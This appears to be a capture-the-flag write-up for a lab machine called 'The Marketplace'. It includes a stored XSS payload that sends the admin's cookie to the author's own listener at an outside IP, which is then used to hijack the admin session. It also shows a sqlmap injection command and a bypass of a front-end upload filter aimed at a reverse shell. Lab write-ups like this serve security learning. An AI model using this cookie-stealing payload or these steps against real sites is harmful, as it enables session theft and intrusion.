 # The Marketplace

### The Marketplace
First create an account on the webpage (`test:test`), next step is to exploit a stored XSS vulnerability to steal michael's (the admin) cookie. The payload I used for XSS is `<script>new Image().src="http://10.11.127.156/steal.php?cookie=" + document.cookie;</script>`, if I open a python webserver on port 80 I get my own cookie. 
Luckily there's a button that allows me to report the listing to an admin, to make sure that his browser will view the XSS.<br />
![image](https://github.com/user-attachments/assets/8995c8e8-ec3c-4da0-b2fc-59ab16d5227d)<br />
So I report the listing and get the admin token on my webserver! The next step is to put it in the `cookie` variable from the developer's tools:<br />
![image](https://github.com/user-attachments/assets/5f76a337-1fb5-4c8e-9c44-baad24d55b4f)<br />
And now I have access to the `/admin` panel and got the first flag:<br />
![image](https://github.com/user-attachments/assets/4d42d3c0-14ca-4f8f-ad9a-eef41e8c8612)<br />
Now I need to get foothold on the machine. In the admin panel, I can select the "profile" of a user, and the URL becomes, for example, `/admin?user=1`. If I try to perform some SQL injection, I get this error: <br />
![image](https://github.com/user-attachments/assets/c53068ec-cd09-4f2e-b39f-6d4802b06d51)<br />

sqlmap -r request.txt --batch --level 5 --risk 3 --dbs




and I think I need to work with the file upload. It is technically disabled, but it is just a front end filter. I can re-enable it by just deleting the `disabled` keyword from the html code in the developer's tools:<br />
![image](https://github.com/user-attachments/assets/44b21ce2-dad6-4bbc-8ec5-6e44b5fcde5f)<br />
Now, wappalyzer tells me that the web server is `express` and that the backup language is `node.js`:<br />
![image](https://github.com/user-attachments/assets/0f77507a-72d4-4946-b2ad-fe72eac83c74)<br />
This means that if I have to inject some kind of code to spawn a reverse shell it needs to be in `node.js`.

